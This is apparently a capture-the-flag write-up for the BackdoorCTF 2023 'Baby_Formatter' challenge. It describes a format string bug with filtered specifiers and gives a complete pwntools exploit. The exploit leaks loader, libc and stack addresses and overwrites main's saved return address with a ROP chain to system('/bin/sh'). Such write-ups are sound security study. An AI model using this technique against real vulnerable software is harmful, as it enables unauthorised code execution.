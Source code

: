 ## Level: Easy

### Challenge

Get the binary, libc and loader from: https://github.com/sajjadium/ctf-archives/blob/main/ctfs/BackdoorCTF/2023/pwn/Baby_Formatter/README.md

Use `pwninit` or `patchelf` to patch the binary. 
```
  cp fmt1 fmt1_patched
  patchelf --set-interpreter ./ld-linux-x86-64.so.2 fmt1_patched
  patchelf --set-rpath . fmt1_patched
```

Cool challenge by __@p0ch1ta__, format string exploit with some filtered chars. This challenge made me realize that I should automate stuff with pwntools and python functions.

### Checksec
![checksec](https://github.com/user-attachments/assets/e040f7ec-3a06-41dd-a1b7-aa411c8d9fe5)

### Binary
Btw, they gave us an option to leak an address in libc and in the stack but I didn't take it :P

![noob](https://github.com/user-attachments/assets/7fc15592-e220-4227-aa85-c327c55cb772)

Anyway, `%p` `%u` `%d` and `%x` is filtered but we can still use `%s` and `%o` to leak info. Due to `Full RELRO` we can't overwrite the got entries, at least in the binary. Maybe we can overwrite a got entry in `libc` because its __Partial RELRO__ but I ended up overwriting _saved rip_ of main with **system("/bin/sh")**.

### Local Flag

![realflag](https://github.com/user-attachments/assets/67de5c3e-b633-4388-89b3-e5b102a40dad)

### Full Exploit
```
#!/usr/bin/env python3

from pwn import *
import time

context.arch = 'amd64'
'''
p = gdb.debug("./fmt1_patched", gdbscript="""
    b *main+159
    c
""")
'''

p = process("./fmt1_patched")

# leak an address in loader for gadgets
# the binary doesn't have useful gadgets
payload = b"%27$s"

p.recvuntil(b">> ")
p.sendline(b"2")

p.recvuntil(b">> ")
p.sendline(payload)

ld_leak = p.recvline().strip()

ld_leak = u64(ld_leak.ljust(8, b"\x00"))

ld_base = ld_leak - 242400
print("LD_BASE: " + hex(ld_base))

# useful gadgets
POP_RSP = ld_base + 0x00000000000021d3 
POP_RSI = ld_base + 0x00000000000054da
POP_RDI = ld_base + 0x000000000000351e 
RET = ld_base + 0x2128

# leak libc and stack addresses in octal
payload = b"%17$lo %21$lo %11$lo"

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
p.sendline(payload)

leak = p.recvline().strip()

# convert octal to int
libc_leak = int(leak[:16], 8)
stack_leak = int(leak[17:33], 8)

# calculate offsets
libc_base = libc_leak - 171408
ret_addr = stack_leak - 272
bin_sh = libc_base + 1934968 
system = libc_base + 331120

# overwrite the saved rip of main with "pop_rdi"
# split the address so copying is less painful (2 bytes each time instead of 4)
print("OVERWRITING saved rip with 'pop_rdi'...")
pop_rdi = hex(POP_RDI)[6:]
pop_rdi2 = hex(POP_RDI)[10:]
pop_rdi3 = pop_rdi[:4]

pop_rdi = int(pop_rdi, 16)
pop_rdi2 = int(pop_rdi2, 16)
pop_rdi3 = int(pop_rdi3, 16)

# copy the less significant 2 bytes
payload = b"%*9$c%8$hn"
payload += b"A"*6
payload += p64(ret_addr)
payload += p16(pop_rdi2)

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
time.sleep(0.01)
p.sendline(payload)

# copy the next 2 bytes 
payload = b"%*9$c%8$hn"
payload += b"A"*6
payload += p64(ret_addr+2)
payload += p16(pop_rdi3)

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
time.sleep(0.01)
p.sendline(payload)

# overwrite ret_addr+8 of main with "/bin/sh"
# to find "/bin/sh" string in libc (get the offsets with vmmap):
# find 0x00007ff799702000, 0x00007ff7998eb000, '/', 'b', 'i', 'n', '/', 's', 'h'
# copy the less significant 4 bytes
print("WRITING '/bin/sh' ONTO THE STACK...")
bin_sh1 = hex(bin_sh)[6:]
bin_sh1 = int(bin_sh1, 16)
payload = b"%*9$c%8$n"
payload += b"B" * 7
payload += p64(ret_addr+8)
payload += p32(bin_sh1)

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
time.sleep(0.1)
p.sendline(payload)

# copy the higher 4 bytes
bin_sh2 = hex(bin_sh)[:6]
bin_sh2 = int(bin_sh2, 16)
payload = b"%*9$c%8$n"
payload += b"B" * 7
payload += p64(ret_addr+12)
payload += p32(bin_sh2)

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
time.sleep(0.1)
p.sendline(payload)

# align the stack with "ret"
# copy the less significant 4 bytes
print("ALIGNING THE STACK FOR SYSTEM...")
ret1 = hex(RET)[6:]
ret1 = int(ret1, 16)
payload = b"%*9$c%8$n"
payload += b"C" * 7
payload += p64(ret_addr+16)
payload += p32(ret1)

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
time.sleep(0.1)
p.sendline(payload)

# copy the higher 4 bytes
ret2 = hex(RET)[:6]
ret2 = int(ret2, 16)
payload = b"%*9$c%8$n"
payload += b"C" * 7
payload += p64(ret_addr+20)
payload += p32(ret2)

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
time.sleep(0.1)
p.sendline(payload)

# call system
# copy the less significant 4 bytes
print("WRITING system('/bin/sh')...")
system1 = hex(system)[6:]
system1 = int(system1, 16)
payload = b"%*9$c%8$n"
payload += b"D" * 7
payload += p64(ret_addr+24)
payload += p32(system1)

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
time.sleep(0.1)
p.sendline(payload)

# copy the higher 4 bytes
system1 = hex(system)[:6]
system1 = int(system1, 16)
payload = b"%*9$c%8$n"
payload += b"D" * 7
payload += p64(ret_addr+28)
payload += p32(system1)

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
time.sleep(0.1)
p.sendline(payload)

print("shell in 3...")
p.interactive()
```

See? That's why I said automating is important :D



